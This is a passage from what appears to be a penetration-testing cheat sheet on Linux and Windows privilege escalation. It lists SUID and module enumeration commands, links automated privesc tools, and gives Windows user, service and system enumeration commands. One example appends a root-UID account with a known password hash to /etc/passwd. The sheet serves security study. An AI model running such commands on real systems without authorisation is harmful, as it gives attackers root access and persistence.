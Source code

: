     lsmod
    ```
    ```bash
    /sbin/modinfo [module name]
    ```
  - Binaries That AutoElevate
    - Normally, when running an executable, it inherits the permissions of the user that runs it. However, if the SUID permissions are set. the binary will run with the permissions of the file owner. This means that if a binary has the SUID bit set and the file is owned by root, any local user will be able to execute that binary with elevated privileges.
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
  - Write in /etc/passwd
    - If a password has is peresnt at the second column of `/etc/passwd`, it is considered valid for authentication. It means that if we have permission to write into the file, we can set the password for any user. Also we can modify de UID and GUID (zero for root).
    ```bash
    xonork@xonork ~ openssl passwd test
    a96sb9Hrowj0c
    
    xonork@xonork ~  echo "root2:a96sb9Hrowj0c:0:0:root:/root:/bin/bash" >> /etc/passwd
    ```
- **Automated**
  - https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
  - [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
  - [Linux Smart Enum](https://github.com/diego-treitos/linux-smart-enumeration)
  - [LinEnum](https://github.com/rebootuser/LinEnum)
  - [BeRoot](https://github.com/AlessandroZ/BeRoot)
  - [LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)
  - [Unix Privesc Check](https://github.com/pentestmonkey/unix-privesc-check)
  - [Privilage Escalation through sudo](https://github.com/TH3xACE/SUDO_KILLER)
  - [GTFOBins](https://gtfobins.github.io/)

## **Windows**

- **Manually**
  - More user information
    ```bash
    net user <USER>
    ```
    It gaves us more information about the target as which groups the user belongs to.
    ```bash
    whoami /priv
    ```
  - Discover more users
    ```bash
    net user
    ```
  - System information
    ```bash
    systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
    ```
  - Running Processes and Services
    ```bash
    tasklist /SVC
    ```
    ```bash
    Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
    ```
    
